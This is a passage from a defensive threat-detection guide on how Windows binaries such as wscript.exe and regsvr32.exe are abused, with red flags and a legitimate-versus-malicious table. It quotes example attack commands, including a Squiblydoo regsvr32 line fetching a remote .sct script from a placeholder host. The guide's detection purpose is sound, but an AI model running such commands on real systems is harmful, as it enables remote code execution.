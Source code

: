 🔴 **Red Flags:**  
- `mshta.exe` running from `Outlook.exe` or `chrome.exe`.  

---

## **9. `wscript.exe` / `cscript.exe` (Windows Script Host)**
### **Legitimate Behavior:**
- **Location:** `C:\Windows\System32\`  
- **Purpose:** Runs `.vbs`, `.js` scripts.  

### **Malicious Abuse:**
- **Malicious Script Execution:**  
  - `wscript.exe C:\malware\payload.vbs`  
  - **Obfuscated JS/VBS scripts.**  

### **Detection:**
✅ **Check:**  
- **Script Content Analysis** (Use **VirusTotal**).  
- **Parent Process** (Legitimate: `explorer.exe` | Malicious: `word.exe`).  

🔴 **Red Flags:**  
- Scripts from `Temp` or `Downloads`.  

---

## **10. `regsvr32.exe` (Registers DLLs)**
### **Legitimate Behavior:**
- **Location:** `C:\Windows\System32\regsvr32.exe`  
- **Purpose:** Registers/unregisters DLLs.  

### **Malicious Abuse:**
- **Squiblydoo Attack:**  
  - `regsvr32 /s /n /u /i:http://malware.com/payload.sct scrobj.dll`  
  - Executes remote scripts.  

### **Detection:**
✅ **Check:**  
- **Command-Line Arguments** (Legitimate: `/s filename.dll` | Malicious: `/i:http://...`).  

🔴 **Red Flags:**  
- `regsvr32.exe` loading scripts from the web.  

## **Summary Table: Legitimate vs. Malicious Indicators**
| **Process**       | **Legitimate** | **Malicious** |
|-------------------|---------------|---------------|
| **`svchost.exe`** | Multiple instances, signed, `System32` | Non-`System32`, unusual `-k` parameter |
| **`explorer.exe`** | Runs from `System32`, no network calls | Spawns `cmd.exe`, runs from `Temp` |
| **`lsass.exe`**   | Runs under `wininit.exe` | Accessed by `mimikatz.exe` |
| **`rundll32.exe`** | Runs signed DLLs | Runs from `AppData`, malicious DLLs |
| **`powershell.exe`** | Clean commands | Obfuscated, encoded scripts |
| **`mshta.exe`**   | Rarely used | Runs remote HTA files |
| **`wscript.exe`**  | Runs `.vbs` scripts | Executes obfuscated JS/VBS |
| **`regsvr32.exe`** | Registers DLLs | Executes remote `.sct` files |
